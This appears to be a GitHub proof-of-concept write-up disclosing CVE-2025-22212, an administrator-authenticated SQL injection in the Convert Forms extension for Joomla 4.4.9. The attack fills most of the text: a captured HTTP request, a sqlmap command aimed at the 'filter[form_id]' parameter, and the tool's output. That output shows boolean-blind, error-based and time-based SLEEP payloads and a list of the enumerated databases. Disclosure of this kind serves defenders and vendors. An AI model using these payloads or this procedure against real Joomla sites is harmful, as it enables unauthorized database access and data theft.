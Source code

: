 # CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla (v4.4.9) via the 'filter[form_id]' parameter in the appointment contact form.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).

![Alt text](6.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
